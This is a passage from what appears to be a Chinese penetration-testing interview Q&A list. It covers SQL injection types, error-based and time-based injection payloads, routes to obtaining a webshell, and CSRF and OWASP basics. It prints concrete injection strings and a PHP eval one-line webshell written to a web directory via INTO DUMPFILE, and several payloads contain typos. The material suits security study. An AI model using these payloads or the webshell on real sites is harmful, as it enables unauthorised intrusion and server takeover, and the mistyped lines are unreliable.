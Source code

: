 #### ✸ 46.sql 注入的几种类型？  
      (1)报错注入  </br>
      (2)bool 型注入  </br></br>
      (3)延时注入  </br>
      (4)宽字节注入  </br>

#### ✸ 47.报错注入的函数有哪些？   
      (1)and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】 </br>
      (2)通过 floor 报错  向下取整  </br>
      (3)+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)  </br>
    （4)geometrycollection()select from test where id=1 and  geometrycollection((select from(selectfrom(select user())a)b)); </br> 
      (5)multipoint()select from test where id=1 and  multipoint((select from(select from(select user())a)b));  </br>
      (6)polygon()select from test where id=1 and  polygon((select from(select from(select user())a)b));  </br>
      (7)multipolygon()select from test where id=1 and  multipolygon((select from(select from(select user())a)b));  </br>
      (8)linestring()select from test where id=1 and  linestring((select from(select from(select user())a)b));  </br>
      (9)multilinestring()select from test where id=1 and  multilinestring((select from(select from(select user())a)b));  </br>
      (10)exp()select from test where id=1 and exp(~(select * from(select user())a));  </br>
addslashes()  函数返回在预定义字符之前添加反斜杠的字符串  </br>

#### ✸ 48.延时注入如何来判断？  
      (1)if(ascii(substr(“hello”, 1, 1))=104 </br> 
      (2) sleep(5), 1)  </br>

#### ✸ 49.盲注和延时注入的共同点？  
    都是一个字符一个字符的判断  

#### ✸ 50.如何拿一个网站的 webshell ？  
    上传，后台编辑模板，sql 注入写文件，命令执行，代码执行，一些已经爆出的 cms 漏洞，比如 dedecms 后台可以直接建立脚本文件，wordpress 上传插件包含脚本文件 zip 压缩包等  

#### ✸ 51.sql 注入写文件都有哪些函数？  
      (1)select '一句话' into outfile '路径'  </br>
      (2)select '一句话' into dumpfile '路径'  </br>
      (3) select '<?php eval($_POST[1]) ?>' into  dumpfile  'd:\wwwroot\ baidu.com\ nvhack.php';  </br>

#### ✸ 52.如何防止 CSRF?  
      (1)验证 referer  </br>
      (2)验证 token  详细：http://cnodejs.org/topic/5533dd6e9138f09b629674fd  </br>

#### ✸ 53.owasp  漏洞都有哪些？  
      (1)SQL 注入防护方法：  </br>
      (2)失效的身份认证和会话管理  </br>
      (3)跨站脚本攻击 XSS  </br>
      (4)直接引用不安全的对象  </br>
      (5)安全配置错误  </br>
      (6)敏感信息泄露  </br>
      (7)缺少功能级的访问控制  </br>
      (8)跨站请求伪造 CSRF  </br>
      (9)使用含有已知漏洞的组件  </br>
      (0)未验证的重定向和转发  </br>
